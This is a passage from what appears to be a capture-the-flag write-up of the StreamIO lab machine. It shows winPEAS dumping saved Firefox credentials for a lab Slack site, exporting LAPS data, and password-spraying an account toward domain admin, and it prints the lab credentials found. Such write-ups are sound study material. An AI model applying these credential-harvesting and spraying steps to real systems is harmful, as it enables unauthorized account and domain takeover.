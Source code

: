 ![Untitled](StreamIO/Untitled%2035.png)

With winpeas we dumped the credentials of the slack saved on the firefox

![Untitled](StreamIO/Untitled%2036.png)

```python
Showing saved credentials for Firefox
     Url:           https://slack.streamio.htb
     Username:      admin
     Password:      JDg0dd1s@d0p3cr3@t0r
 
   =================================================================================================

     Url:           https://slack.streamio.htb
     Username:      nikk37
     Password:      n1kk1sd0p3t00:)
 
   =================================================================================================

     Url:           https://slack.streamio.htb
     Username:      yoshihide
     Password:      paddpadd@12
 
   =================================================================================================

     Url:           https://slack.streamio.htb
     Username:      JDgodd
     Password:      password@12
```

I tried to export the LAPS data to the desktop of my user.

![Untitled](StreamIO/Untitled%2037.png)

After the export I copied the file to my machine. 

[https://smarthomepursuits.com/export-laps-passwords-powershell/](https://smarthomepursuits.com/export-laps-passwords-powershell/)

![Untitled](StreamIO/Untitled%2038.png)

The shortest path to the domain admin is this, we need to get the JDGODD user

![Untitled](StreamIO/Untitled%2039.png)

The next step is use all the passwords obtained to do a passwordspray against the JDGODD account.

![Untitled](StreamIO/Untitled%2040.png)

```python
streamIO.htb\JDGODD:JDg0dd1s@d0p3cr3@t0r

JDGODD - JDg0dd1s@d0p3cr3@t0r
```
